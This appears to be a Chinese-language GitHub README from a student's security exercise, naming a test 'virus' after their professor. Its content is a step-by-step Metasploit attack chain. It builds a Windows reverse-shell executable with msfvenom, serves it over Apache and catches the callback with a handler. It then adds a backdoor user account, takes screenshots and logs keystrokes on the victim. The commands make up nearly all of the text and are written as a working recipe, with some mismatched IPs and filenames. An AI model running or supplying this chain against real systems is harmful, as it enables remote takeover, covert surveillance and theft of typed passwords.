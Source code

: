 #### Jimmy是教我資安的教授，我用他的名字來命名病毒
##### (我真的很感謝他帶我踏入資安)

#### [Case 1: (55) Detected on virustotal] only msfvenom
    1_[kali]#> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.246 LPORT=8888 -f exe > /var/www/html/jimmy1.exe
    2_[kali]#> service apache2 start
    3_[kali]#> msfconsole
    4_[kali]msf> use exploit/multi/handler
    5_[kali]msf> set payload windows/meterpreter/reverse_tcp
    6_[kali]msf> set lhost 10.0.0.43
    7_[kali]msf> set lport 8888
    8_[kali]msf> run
    9_[windows] http://10.0.0.43/virus1.exe
    10_[windows]execute virus1.exe
    11_[kali]meterpreter > shell  
    12_net user /add jimmy 123456
    13_[kali]meterpreter > screenshot 
    14_[kali]meterpreter > keyscan_start
    15_[kali]meterpreter > keyscan_dump
    16_[kali]meterpreter > keyscan_stop

